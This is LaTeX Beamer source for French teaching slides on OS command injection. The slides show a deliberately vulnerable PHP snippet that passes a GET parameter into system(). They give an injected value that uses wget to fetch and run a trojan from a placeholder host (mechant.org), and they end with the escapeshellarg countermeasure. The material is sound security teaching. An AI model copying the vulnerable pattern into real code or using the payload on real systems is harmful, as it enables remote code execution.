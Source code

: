 \documentclass{beamer}
\def\emptyline{\vspace{10pt}}
\begin{document}
\section{Autres types d'injection}


\subsection{Injection de commandes système}

\begin{frame}[fragile]
\frametitle{Injection de commandes système}

Lorsqu'une commande système implique en partie une saisie utilisateur, une attaque est susceptible d'y injecter des instructions arbitraires.
\begin{lstlisting}[language=PHP,title={\texttt{Code PHP vulnérable}}]
<?php
$email_subject = "sujet du mail";
if (isset($_GET['email']))
  system("mail " . $_GET['email'] .
    " -s '" . $email_subject .
    "' < /tmp/email_body", $return_val);
?>
\end{lstlisting}
Ce qui correspond à la commande :
\begin{center}
\texttt{mail [adresse-email] -s 'un sujet' < /tmp/email\_body}
\end{center}
\end{frame}


\begin{frame}
\frametitle{Injection de commandes -- Attaque}

On peut modifier le comportement de la commande \texttt{mail} avec une adresse volontairement malformée.

Si \texttt{\$\_GET['email']} vaut :
\begin{center}
\texttt{-{}-help; wget http://mechant.org/cheval\_de\_troie; ./cheval\_de\_troie \#}
\end{center}

\begin{itemize}
\item \texttt{-{}-help} fait afficher l'aide de la commande \texttt{mail}.
\item Le \texttt{;} sépare les commandes dans le shell.
\item \texttt{wget} télécharge un fichier binaire malveillant.
\item Ce fichier est ensuite exécuté.
\item Avec \texttt{\#}, le reste de la commande est mis en commentaire.
\end{itemize}

\emptyline
\alert{Contre-mesure} : ne jamais passer d'entrées utilisateur directement à \texttt{system()}, \texttt{exec()}, ou \texttt{shell\_exec()}. Utiliser \texttt{escapeshellarg()} en PHP.
\end{frame}
\end{document}
